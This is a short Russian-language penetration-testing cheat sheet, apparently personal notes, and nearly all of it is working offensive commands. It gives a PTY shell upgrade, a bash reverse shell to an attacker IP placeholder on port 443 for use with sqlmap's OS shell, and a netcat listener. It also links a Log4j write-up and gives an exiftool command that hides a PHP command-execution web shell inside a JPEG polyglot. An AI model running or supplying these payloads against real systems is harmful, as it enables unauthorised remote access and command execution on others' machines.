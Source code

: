 ### Reverse Shell Generator
[revshells.com](https://www.revshells.com)

Переход на удобный шелл:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Проброс шелла с sqlmap --os-shell:

`bash -c "bash -i >& /dev/tcp/{ATTACKER_IP}/443 0>&1"`

Слушать:

`sudo nc -lvnp 443`

[UniFi Log4j](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)

Полиглотный шелл:

`exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" <jpeg-file-name>.jpeg -o polyglot.php`